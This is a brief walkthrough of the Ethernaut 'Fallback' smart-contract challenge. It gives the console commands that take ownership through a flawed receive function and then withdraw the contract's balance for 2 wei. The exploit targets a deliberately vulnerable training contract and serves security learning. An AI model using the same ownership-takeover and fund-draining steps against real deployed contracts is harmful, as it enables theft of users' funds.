 # [1. Fallback](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

The receive function is flawed, we just need to send some value via contribute and then via receive to change the owner. The contribute requires less than 0.001 ether to function, and receive expects at least 0, so:

1. We send `await contract.contribute({value: "1"})`.
2. We send money to the contract address via a fallback function. This can be done by calling an undefined function in the contract with some ether value, such as: `await contract.sendTransaction({from: player, value: "1", data: undefined})`.
3. You can now see that you are the owner via `await contract.owner()`, or make really really sure with `(await contract.owner()) === player`
4. To deal the final blow, we call the `await contract.withdraw()`. By only spending 2 Wei, we got the owners balance :)
